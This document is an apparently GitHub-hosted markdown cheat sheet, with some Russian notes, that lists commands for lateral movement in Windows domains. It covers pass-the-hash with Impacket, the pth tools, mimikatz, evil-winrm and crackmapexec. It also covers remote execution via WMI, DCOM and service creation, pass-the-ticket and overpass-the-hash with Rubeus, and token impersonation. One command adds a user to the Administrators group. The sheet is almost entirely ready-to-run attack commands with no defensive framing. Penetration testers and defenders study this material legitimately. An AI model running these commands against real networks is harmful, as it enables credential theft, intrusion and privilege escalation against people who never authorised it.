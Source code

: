 ## Pass the Hash:  
**Impacket and pth**:  
1) psexec.py -hashes LM:NTLM admin@target  
2) wmiexec.py -hashes :NTLM admin@target  
3) pth-winexe -U admin% //target cmd  
4) pth-wmic -U admin% //target "select Name from Win32_UserAccount"  
5) pth-wmis -U admin% //target "cmd.exe /c whoami > c:\out.txt"
6) pth-smbclient -U admin% //target/c$
7) pth-rpcclient -U admin% //target
8) pth-sqsh -U admin -S target
9) pth-curl http://target/exec?cmd=ipconfig
10) pth-net rpc group ADDMEM 'Administrators' username -S target -U domain/user

**Evil-winrm**:  
evil-winrm -i target -u admin -H "NT hash value"

**Windows (mimikatz)**:  
mimikatz.exe securlsa::pth /user:username /domain:domain /ntlm:NTLM_HASH /run:cmd  

**RDP**:  
xfreerdp /u:<user> /d:domain /pth:hash /v:ipAddr 

**CME**:  
crackmapexec smb <IP> -u username -H ":NT hash value"  

## PowerShell-Remoting: 

Enter-PSSession -ComputerName <computername> -Credentials <domain>\username  

Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName <computername> -Credentials <domain>\username  

$session = New-PSSession -ComputerName <computer name> -verbose  
Enter-PSSession -Session $session -Verbose  
Invoke-Command -Session $session -ScriptBlock {whoami;hostname} -Verbose  

## REG.EXE:  
reg.exe; //Удаленный доступ к реестру с правами на запись на самом деле нам дает RCE.  
  
## DCERPC:  
Использует порты 135/TCP и 4915x/TCP, где 4915x — динамически назначаемые порты. Иногда могут использоваться порты из другого диапазона.  

1. wmiexec.py admin@target; //wmiexec.py -nooutput admin@target "mkdir c:\pwn".  
2. dcomexec.py admin@target; //dcomexec.py -nooutput admin@10.0.0.64 "mkdir c:\123".  
3. wmis -U admin //target "mkdir c:\pwn"/  
4. wmic.exe /user:username /password:password /node:target process call create '"c:\123".  
5. sc.exe; //Назначение инструмента — удаленное управление службами и драйверами. 
    - sc.exe \\target create testservice binPath= \path\to\prog start= auto  
    - sc.exe \\target start testservice  

## Pass the Ticket (Rubeus):  
**First step**: [steal ticket](https://github.com/Kerkroups/Cyber-Kill-Chain/blob/main/Data%20Gathering%20-%20Credentials%20Theft.md#%D0%B8%D0%B7%D0%B2%D0%BB%D0%B5%D1%87%D0%B5%D0%BD%D0%B8%D0%B5-kerberos-tickest-rubeus)  
**Second step**: create hidden process  
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:dev.cyberbotic.io /username:username /password:fakepassword  
**Pass the ticket**: Rubeus.exe ptt /luid:(luid of areated process) /ticket:(stolen ticket)  
  
**Tools to steal token**:  
  1. https://github.com/slyd0g/PrimaryTokenTheft  
  2. https://www.ired.team/offensive-security/privilege-escalation/t1134-access-token-manipulation  
  3. Cobalt Strike, Covenant.  

## Overpass the Hash (Rubeus):  
**Overpass the hash is a technique which allows us to request a Kerberos TGT for a user use their NTLM or AES hash**.  
Rubeus.exe asktgt /user:username /aes256:(aes256 hash) /opsec /nowrap

## Token Impersonation (Incognito):  
load_incognito //load module;  
list_tokens -u //list available tokens;  
impersonate_token [domain]\\[username] //impersonate token;  
shell //get shell with privilege of stealed token;  
  

  
